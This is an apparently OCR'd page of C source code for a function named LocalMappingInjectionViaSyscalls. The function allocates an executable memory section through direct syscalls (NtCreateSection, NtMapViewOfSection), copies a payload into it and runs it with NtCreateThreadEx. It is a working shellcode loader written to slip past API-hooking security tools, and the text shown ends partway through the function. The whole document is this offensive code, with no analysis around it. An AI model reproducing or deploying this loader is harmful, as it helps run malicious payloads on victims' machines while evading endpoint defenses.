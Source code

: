 ### **LocalMappingInjectionViaSyscalls**


```
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};
	Syscall				St			    = { 0 };

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)) {
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Allocating local map view

	if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sViewSize);

//--------------------------------------------------------------------------
	// Writing the payload

	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation

	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

```